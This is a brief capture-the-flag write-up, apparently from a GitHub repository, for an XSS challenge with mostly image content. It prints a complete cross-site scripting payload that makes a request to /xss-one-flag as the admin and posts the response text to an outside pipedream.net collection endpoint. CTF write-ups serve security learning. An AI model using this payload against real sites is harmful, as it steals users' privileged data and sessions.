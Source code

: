 ![image](https://github.com/nhattanhh/CTF/assets/130430279/553c28c9-68f2-4816-9720-eeda5d65da22)

This chall give 3 hints:

![image](https://github.com/nhattanhh/CTF/assets/130430279/d71ae524-6be0-4ebb-bf97-54c0436abb78)

- Our mission to request use 'Get' method to /xss-one-flag and catch Admin's session in respond

- So use this payload to catch respond with pipedream:


	<script>
	    var xhr = new XMLHttpRequest();
	    xhr.open('GET', '/xss-one-flag', true);
	    xhr.onload = function() {
	        if (xhr.status === 200) {
	            var flag = xhr.responseText;
	            var sendXhr = new XMLHttpRequest();
	            sendXhr.open('POST', 'https://eozoer2j1a4mcc2.m.pipedream.net', true);
	            sendXhr.setRequestHeader('Content-Type', 'text/plain');
	            sendXhr.send(flag);
	        }
	    };
	    xhr.send();
	</script>


![image](https://github.com/nhattanhh/CTF/assets/130430279/aae2bfed-f35f-41f9-8465-853663873718)
